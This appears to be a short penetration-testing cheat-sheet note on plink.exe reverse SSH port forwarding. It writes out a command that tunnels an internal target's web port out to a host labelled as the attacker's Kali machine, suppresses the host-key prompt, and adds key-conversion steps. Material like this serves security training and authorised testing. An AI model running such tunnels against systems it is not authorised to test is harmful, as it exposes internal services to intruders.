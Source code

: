 plink.exe

Windows PLink Tunnel

Plink allows an SSH-like client to allow Port Forwarding on a Windows system. Below is an example command:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Command Breakdown:

cmd.exe /c echo y - This spawns a non-interactive shell and suppresses warnings
| - pipes in a new command after the non-interactive shell and into that same shell
-R - Creates the remote port on the attacker machine
8000:172.16.0.10:80 - AttackerMachineProxyPort:TargetIP:TargetPort
kali@172.16.0.20 - AttackerUser@AttackerIP
-i KEYFILE - -i Specifies to use a Private Key and the KEYFILE is the keyfile/private key **May need to be chmod 600 on the keyfile for it to function properly
-N - only sets up the connection (no backgrounding is needed as it is running in a backgrounded non-interactive shell)

***Keys generated with ssh-keygen will not work properly with plink as plink is a part of the putty set and will require a putty generated key.
***You will need to generate a key using ssh-keygen and then convert it with puttygen. Below is an example command:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
puttygen KEYFILE -o OUTPUT_KEY.ppk
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

You will still need to add the public key to the authorized_keys file for this, but the private key used on the other system will need to become the puttygen'd key.
